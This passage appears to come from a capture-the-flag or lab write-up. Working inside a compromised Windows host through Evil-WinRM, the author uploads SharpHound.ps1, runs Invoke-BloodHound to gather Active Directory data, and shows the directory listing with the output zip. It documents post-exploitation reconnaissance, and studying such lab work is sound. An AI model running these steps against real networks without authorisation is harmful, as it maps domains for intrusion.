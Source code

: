 ![image*](/img/image-20220227141846798.png)

I can go back to the previous commit and download the PowerShell script
from there. I'll upload it and run it:



    *Evil-WinRM* PS C:\programdata> upload SharpHound.ps1
    Info: Uploading SharpHound.ps1 to C:\programdata\SharpHound.ps1

                                                                 
    Data: 1298852 bytes of 1298852 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> . .\SharpHound.ps1
    *Evil-WinRM* PS C:\programdata> Invoke-BloodHound -CollectionMethod All
    *Evil-WinRM* PS C:\programdata> ls

        Directory: C:\programdata

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d---s-       10/21/2021   3:13 AM                Microsoft
    d-----       10/21/2021  12:05 AM                regid.1991-06.com.microsoft
    d-----        9/15/2018  12:19 AM                SoftwareDistribution
    d-----        4/10/2020   5:48 AM                ssh
    d-----        4/10/2020  10:49 AM                USOPrivate
    d-----        4/10/2020  10:49 AM                USOShared
    d-----        8/25/2021   2:57 AM                VMware
    -a----        2/27/2022  11:17 AM           8980 20220227111707_BloodHound.zip
    -a----        2/27/2022  11:17 AM          10043 MWU2MmE0MDctMjBkZi00N2VjLTliOTMtYThjYTY4MjdhZDA2.bin
    -a----        2/27/2022  11:04 AM         883200 SharpHound.exe
    -a----        2/27/2022  11:15 AM         974139 SharpHound.ps1
